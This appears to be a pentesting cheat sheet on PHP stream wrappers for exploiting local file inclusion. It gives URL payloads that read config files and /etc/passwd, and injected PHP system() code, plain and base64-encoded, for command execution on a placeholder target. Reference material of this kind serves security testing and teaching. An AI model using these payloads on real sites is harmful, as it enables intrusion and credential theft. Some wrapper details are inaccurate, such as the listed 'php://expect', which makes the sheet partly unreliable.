 PHP has several wrappers that, if enabled, can be used to gain code execution from an LFI:

#### 1. **php://filter** (Read Files Without Execution)
- Encodes the content of the file, bypassing execution.
- Used to read files that would not normally be rendered in a browser window.
- Used to view source codes for PHP files or exfiltrate binary/non-text files for review on local system.
- **Example (Base64):**
```php
hxxp://target-site/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/config.php
```

- **Decode the Output:**
```php
echo "BASE64-ENCODED-DATA" | base64 -d
```

---
#### 2. **php://input** (Inject PHP Code via POST)
- Reads raw POST data as input and executes it.
- Requires you to send a valid PHP code in a POST request.
- **Example:**
```php
hxxp://target-site/index.php?page=php://input
```

- **Inject Code (POST Request):**
```php
<?php system('cat /var/www/html/config.php'); ?>
```

---
#### 3. **php://expect** (Command Execution)
- Executes system commands directly (if enabled) from the URL.
- **Example:**
```php
hxxp://target-site/index.php?page=php://expect
hxxp://target-site/index.php?page=expect://ls
```

- **POST Data:**
```bash
id
```

---
#### 4. **php://fd** (File Descriptor Access)
- Reads from open file descriptors.
- **Example:**
```php
hxxp://target-site/index.php?page=php://fd/0
```

---
#### 5. **data://** (Inject Base64 Encoded PHP Code)
- Injects code directly using a base64 encoded payload.
- **Example:**
```php
hxxp://target-site/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgL3Zhci93d3cvaHRtbC9jb25maWcucGhwJyk7ID8+
```

- **Decode (PHP Code):**
```php
<?php system('cat /var/www/html/config.php'); ?>
```

---
#### 6. **zip://** (Read from Zip Archives)
- Access files inside ZIP archives.
- **Example:**
```perl
http://target-site/index.php?page=zip:///var/www/html/archive.zip%23config.php
```

---
#### 7. **phar://** (Extract Phar Files)

- Reads files from PHP archives (phar).
- **Example:**
```perl
http://target-site/index.php?page=phar:///var/www/html/config.phar
```

---
#### 8. **file://** (Direct File Access)
- Reads files directly (may work for non-PHP files).
- **Example:**
```perl
http://target-site/index.php?page=file:///etc/passwd
```

---
#### Testing and Debugging:
- Use **Burp Suite** or **curl** to inject payloads.
- **Example (Burp):**
```bash
GET /index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/config.php
```

---
###  PHP Filter Categories
- **String Filters:** `string.rot13`, `string.toupper`, `string.tolower`, `string.strip_tags`
- **Conversion Filters**: `convert.base64-encode`, `convert.base64-decode`, `convert.quoted-printable-encode`, `convert.quoted-printable-decode`
- **Compression Filters**: `zlib.deflate`, `zlib.inflate`
- **Encryption Filters**: `mcrypt`, `mdecrypt` (deprecated)